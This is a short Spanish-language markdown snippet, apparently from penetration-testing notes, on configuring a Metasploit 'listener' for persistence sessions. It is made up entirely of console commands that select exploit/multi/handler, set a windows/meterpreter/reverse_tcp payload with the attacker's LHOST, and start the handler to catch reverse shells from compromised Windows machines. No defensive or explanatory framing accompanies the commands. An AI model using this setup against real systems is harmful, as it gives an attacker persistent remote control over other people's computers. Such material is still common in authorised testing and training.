 ## Configuración del 'Listener' para las sesiones de persistencia 

```bash 
❯ use exploit/multi/handler                              # Usaremos el exploit
❯ show options 
❯ set payload windows/meterpreter/reverse_tcp            # Configuramos un payload dedicado a Windows 
❯ set LHOST ❮IP❯                                         # Configuramos nuestra IP
❯ run
```

